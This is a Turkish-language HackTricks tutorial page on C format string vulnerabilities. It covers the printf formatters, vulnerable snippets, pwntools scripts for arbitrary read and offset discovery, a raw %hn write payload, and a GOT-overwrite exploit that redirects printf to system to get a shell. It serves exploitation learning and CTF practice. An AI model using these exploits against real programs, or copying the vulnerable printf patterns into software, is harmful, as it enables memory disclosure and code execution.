 # Format Strings

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Temel Bilgiler

C'de **`printf`** bazı metinleri **yazdırmak için** kullanılabilen bir fonksiyondur. Bu fonksiyonun beklediği **ilk parametre**, **formatlayıcılarla birlikte ham metin**'dir. **Sonraki parametreler**, ham metindeki **formatlayıcıları** **değiştirmek için** beklenen **değerler**dir.

Diğer savunmasız fonksiyonlar **`sprintf()`** ve **`fprintf()`**'dir.

Zafiyet, **bir saldırgan metni bu fonksiyona ilk argüman olarak kullanıldığında** ortaya çıkar. Saldırgan, **printf format** dizesinin yeteneklerini kötüye kullanarak **herhangi bir adreste (okunabilir/yazılabilir)** **herhangi bir veriyi okumak ve yazmak için** özel bir girdi oluşturabilecektir. Bu şekilde **rastgele kod çalıştırma** yeteneğine sahip olacaktır.

#### Formatlayıcılar:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Örnekler:**

* Açık örnek:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normal Kullanım:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Eksik Argümanlarla:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf savunmasız:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointer'lara Erişim**

Format **`%<n>$x`**, burada `n` bir sayı, printf'e yığın (stack) içinden n parametresini seçmesini belirtir. Yani, printf kullanarak yığından 4. parametreyi okumak istiyorsanız şunu yapabilirsiniz:
```c
printf("%x %x %x %x")
```
ve birinci parametreden dördüncü parametreye kadar okuyabilirsiniz.

Ya da şunu yapabilirsiniz:
```c
printf("%4$x")
```
ve doğrudan dördüncüyü okuyun.

Saldırganın `printf` **parametresini kontrol ettiğini unutmayın, bu temelde** girdiğinin `printf` çağrıldığında yığın içinde olacağı anlamına gelir, bu da belirli bellek adreslerini yığında yazabileceği anlamına gelir.

{% hint style="danger" %}
Bu girişi kontrol eden bir saldırgan, **yığında rastgele adres ekleyebilir ve `printf`'in bunlara erişmesini sağlayabilir**. Bir sonraki bölümde bu davranışın nasıl kullanılacağı açıklanacaktır.
{% endhint %}

## **Rastgele Okuma**

Biçimlendiriciyi **`%n$s`** kullanarak **`printf`'in** **n pozisyonunda** bulunan **adres**i alması ve **bunu bir dizeymiş gibi yazdırması** (0x00 bulunana kadar yazdırma) mümkündür. Yani, ikili dosyanın temel adresi **`0x8048000`** ise ve kullanıcı girdisinin yığında 4. pozisyonda başladığını biliyorsak, ikilinin başlangıcını yazdırmak mümkündür:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Girişin başına 0x8048000 adresini koyamayacağınızı unutmayın çünkü dize, o adresin sonunda 0x00 ile kesilecektir.
{% endhint %}

### Ofseti Bul

Girişinizin ofsetini bulmak için 4 veya 8 bayt (`0x41414141`) gönderebilir ve ardından **`%1$x`** ile birlikte değeri **artırarak** `A'ları` alabilirsiniz.

<details>

<summary>Brute Force printf ofseti</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Ne kadar faydalı

Rastgele okumalar şunlar için faydalı olabilir:

* **Bellekten** **ikili** **veriyi** **dökme**
* **Hassas** **bilgilerin** saklandığı **belleğin belirli kısımlarına** erişim sağlama (örneğin, bu [**CTF zorluğu**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) gibi canary'ler, şifreleme anahtarları veya özel şifreler)

## **Rastgele Yazma**

Formatlayıcı **`%<num>$n`** **yazılan bayt sayısını** **belirtilen adrese** **yazar**. Eğer bir saldırgan printf ile istediği kadar karakter yazabiliyorsa, **`%<num>$n`**'nin rastgele bir sayıyı rastgele bir adrese yazmasını sağlayabilir.

Neyse ki, 9999 sayısını yazmak için girdiye 9999 "A" eklemek gerekmez, bunun yerine **`%.<num-write>%<num>$n`** formatlayıcısını kullanarak **`<num-write>`** sayısını **`num` pozisyonu tarafından gösterilen adrese** yazmak mümkündür.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ancak, genellikle `0x08049724` gibi bir adres yazmak için (bu, bir seferde yazılması gereken BÜYÜK bir sayıdır), **`$hn`** kullanılır, **`$n`** yerine. Bu, **sadece 2 Bayt** yazmaya olanak tanır. Bu nedenle, bu işlem iki kez yapılır; bir kez adresin en yüksek 2B'si için ve bir kez de en düşük olanlar için.

Bu nedenle, bu zafiyet **herhangi bir adrese (keyfi yazma)** **yazmaya** olanak tanır.

Bu örnekte, hedef, daha sonra çağrılacak olan **GOT** tablosundaki bir **fonksiyonun** **adresini** **üst üste yazmak** olacaktır. Bu, diğer keyfi yazma ile exec tekniklerini kötüye kullanabilir:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Bir **fonksiyonu** **üst üste yazacağız** ki bu **fonksiyon**, **kullanıcıdan** **argümanlarını** **alır** ve **`system`** **fonksiyonuna** **işaret eder**.\
Yazmak için, genellikle 2 adım gereklidir: Önce **adresin 2 Bayt'ını** yazarsınız ve sonra diğer 2'sini. Bunu yapmak için **`$hn`** kullanılır.

* **HOB**, adresin 2 yüksek baytına çağrılır
* **LOB**, adresin 2 düşük baytına çağrılır

Daha sonra, format dizesinin nasıl çalıştığı nedeniyle, önce \[HOB, LOB] içindeki en küçüğü **yazmanız** ve ardından diğerini yazmanız gerekir.

Eğer HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Eğer HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Şablonu

Bu tür bir zafiyet için bir exploit hazırlamak üzere bir **şablon** bulabilirsiniz:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ya da [**buradan**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) bu temel örneği inceleyebilirsiniz:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Bir format string zafiyetinin yazma eylemlerini kötüye kullanarak **stack adreslerine yazmak** ve **buffer overflow** türü bir zafiyeti istismar etmek mümkündür.

## Diğer Örnekler & Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, format string kullanarak stack'ten flag'i sızdırmak için temel kullanım (çalışma akışını değiştirmeye gerek yok)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, `fflush` adresini win fonksiyonu ile üzerine yazmak için format string (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, `.fini_array` içinde main'e bir adres yazmak için format string (böylece akış bir kez daha döner) ve `strlen`'a işaret eden GOT tablosundaki `system` adresini yazmak. Akış main'e geri döndüğünde, kullanıcı girişi ile `strlen` çalıştırılır ve `system`'a işaret eder, geçilen komutları çalıştırır.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricks'i destekleyin

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek hacking ipuçlarını paylaşın.
{% endhint %}

